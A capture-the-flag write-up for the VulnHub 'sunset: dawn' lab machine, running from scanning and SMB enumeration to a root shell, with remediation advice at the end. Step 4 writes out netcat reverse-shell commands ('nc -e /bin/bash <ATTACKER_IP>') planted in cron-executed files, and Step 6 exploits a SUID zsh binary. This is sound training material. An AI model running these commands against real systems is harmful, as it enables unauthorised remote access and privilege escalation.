



# sunset: dawn — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.165 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/sunset-dawn,341/) |

## Attack Summary

nmap → management.log (logs dir) → SMB ITDEPT share → writable cron scripts → netcat shell → SUID /usr/bin/zsh → root

## Methodology

1. Network discovery
2. Port scan + web enumeration
3. Discover logs directory with management.log
4. Enumerate SMB → writable ITDEPT share
5. Plant cron-executed backdoor files
6. Receive netcat reverse shell
7. SUID zsh → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
```

Target identified at 192.168.1.165.

```bash
nmap -A 192.168.1.165
```

Open ports: 80 (HTTP Apache), 139 (NetBIOS), 445 (SMB), 3306 (MySQL).


---

## Step 2: Web Enumeration

Browse port 80 — page unavailable. Run directory brute-force:

```bash
dirb http://192.168.1.165/
```

Discovered: `/logs/` directory.



Download `management.log` from `/logs/management.log`. It reveals:
- An SMB share named `ITDEPT`
- Two script files executed by cron: `product-control` and `web-control`

---

## Step 3: SMB Enumeration

```bash
enum4linux -a 192.168.1.165
```

Found share `ITDEPT` accessible without credentials. Users: `dawn`, `ganimedes`.

```bash
smbclient //192.168.1.165/ITDEPT
```

Share is accessible with blank password and allows file uploads.



---

## Step 4: Cron Backdoor via SMB

Create two files that open reverse shells — cron runs them periodically:

```bash
echo "nc -e /bin/bash <ATTACKER_IP> 1234 &" > product-control
echo "nc -e /bin/bash <ATTACKER_IP> 1235 &" > web-control
```

Upload to the share:

```bash
smbclient //192.168.1.165/ITDEPT
smb> put product-control
smb> put web-control
```

---

## Step 5: Reverse Shell

Start listener and wait for cron to execute the scripts:

```bash
nc -lvp 1234
```

Shell received as user `dawn`. Upgrade to TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


---

## Step 6: Privilege Escalation (SUID zsh)

```bash
find / -perm -u=s -type f 2>/dev/null
```

`/usr/bin/zsh` has the SUID bit set.

```bash
/usr/bin/zsh
whoami
# root
cat /root/flag.txt
```



---

## Lessons Learned

1. **Writable SMB shares** executed by cron create trivial RCE — never expose writable shares running as privileged users
2. **SUID on interactive shells** (zsh, bash, sh) is an immediate privesc — audit SUID binaries regularly
3. **Log files exposed on web** reveal internal paths and scheduled tasks; restrict `/logs/` directories

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Writable SMB share (ITDEPT) | Restrict write permissions; cron should not run scripts from user-writable locations |
| SUID bit on /usr/bin/zsh | Remove SUID: `chmod u-s /usr/bin/zsh` |
| Logs directory exposed on web | Restrict access to `/logs/` via `.htaccess` or web server config |
| MySQL port 3306 exposed | Bind MySQL to 127.0.0.1 only |
